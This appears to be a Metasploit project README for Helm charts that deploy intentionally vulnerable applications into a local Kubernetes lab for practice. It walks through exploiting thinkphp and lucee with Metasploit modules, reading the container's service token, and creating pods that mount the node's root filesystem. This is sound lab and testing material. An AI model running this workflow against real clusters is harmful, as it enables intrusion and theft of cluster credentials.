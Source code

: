 ### Kubernetes

A collection of [Helm](https://helm.sh/) charts have been created to aid both Metasploit developers and pentesters explore Metasploit's
Kubernetes support. These charts can help provision your local Kubernetes environment with intentionally vulnerable applications,
which can be exploited using Metasploit modules.

## Usage

### Requirements

Kubernetes is installed on your host machine with either [kind](https://kind.sigs.k8s.io/docs/user/quick-start/#installation),
[Minikube](https://minikube.sigs.k8s.io/docs/start/), [Docker Desktop](https://docs.docker.com/desktop/kubernetes/), or alternatives.

If you are using Kind, you will need to create a cluster ahead of time:

```
kind create cluster
```

Kubectl and Helm will also need to be available on your path, an example of installing these tools can be found within the
example [Dockerfile](./Dockerfile).

### Installing

The provided `Makefile` will have all of the required commands available for setting up your environment:

```
make help
```

Next install the vulnerable charts and configuration:

```
make install
```

If you are on a Mac environment, you can optionally you you can use the `docker-compose` setup:

```
docker-compose run setup
```

It is also possible to enter into an interactive environment with the required Helm/Kubectl tools available:

```
$ docker-compose run --service-ports setup /bin/sh
kubectl get all --all-namespaces
helm list
make install
```

## Available Charts

### secrets

Create multiple Kubernetes Secrets to test Metasploit's enumeration capabilities:

```
make secrets
```

### thinkphp

Run an intentionally vulnerable `thinkphp` application with full cluster access:

```
make thinkphp
```

Forwarding to host on port 9001:
```
make forward-thinkphp
```

Exploitation will result in a Meterpreter session with full cluster access:
```
use unix/webapp/thinkphp_rce
run http://target_ip:9001
```

### lucee

Run an intentionally vulnerable `lucee` application with a default service account with minimal access:
```
make lucee
```

Forwarding to host on port 9002:
```
make forward-lucee
```

Exploitation will result in a cmd shell session with a default service account with minimal access:
```
use linux/http/lucee_admin_imgprocess_file_write
run http://target_ip:9002 lhost=...
```

### Workflow Example

First configure the Kubernetes environment:
```
make install
```

Now expose the exploitable thinkphp application to your host machine. In the real world this step would not be required
as the application would be most likely already be publicly accessible:

```
make forward-thinkphp
```

Open Metasploit and exploit the thinkphp container to open a Metarpreter session:

```
use unix/webapp/thinkphp_rce
run http://target_ip:9001
```

The `auxiliary/cloud/kubernetes/enum_kubernetes` module can now be used to pivot through the compromised container to reach
the previously inaccessible Kubernetes API. In this scenario the container's Kubernetes service token will be read from the
file system, and used to authenticate with the Kubernetes API:

```
use auxiliary/cloud/kubernetes/enum_kubernetes
run session=-1
```

If the compromised service token has the required permissions to create new pods, it is possible to open additional Metasploit sessions and
run one-of tasks with the `exploit/multi/kubernetes/exec` module. This newly created pod will also attempt to mount the Kubernetes Node's
root filesystem to `/host_mnt`, which may lead to additional attack vectors:

```
use exploit/multi/kubernetes/exec
run session=-1
```

See the corresponding documentation for each module for more detail.

## Kubernetes Dashboard

To access the Kubernetes dashboard:

```
make dashboard
make forward-dashboard
```

Now visit https://localhost:9443, and select the token option. To generate an admin token will full access to the cluster:

```
make admin-token
```
